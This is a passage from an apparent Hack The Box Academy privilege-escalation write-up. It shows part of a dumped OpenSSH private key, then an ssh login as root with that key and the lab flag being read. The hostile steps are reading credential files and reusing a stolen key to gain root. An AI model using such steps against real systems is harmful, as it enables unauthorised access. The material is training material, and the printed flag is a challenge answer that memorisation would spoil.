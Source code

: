```
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
-----END OPENSSH PRIVATE KEY-----
user2@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~$ 
```

We can copy that key and log in via ssh as root user:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ ssh -i key root@94.237.59.185 -p 44768     

[...]

root@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~# cat flag.txt 
HTB{pr1v1l363_35c4l4710n_2_r007}
root@ng-832016-gettingstartedprivesc-qsy8w-7fd66f9967-lx8v7:~# 
```